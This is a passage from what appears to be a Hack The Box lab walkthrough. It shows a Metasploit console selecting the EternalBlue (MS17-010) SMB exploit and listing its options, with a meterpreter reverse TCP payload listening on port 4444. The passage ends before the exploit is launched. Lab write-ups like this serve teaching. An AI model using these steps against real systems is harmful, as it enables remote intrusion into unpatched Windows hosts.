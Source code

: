 There are many modules available but we need to focus on the EternalBlue one. Thus, let’s use the first one and check its options.

```bash
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                             t/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Wi
                                             ndows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines
                                             .
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2
                                             008 R2, Windows 7, Windows Embedded Standard 7 target machines.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.48     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

View the full module info with the info, or info -d command.
```

Great. It seems we only need to set the `RHOSTS` and `LHOST` options, which are respectively the remote target's IP address and our local IP address (the one on your HTB interface).
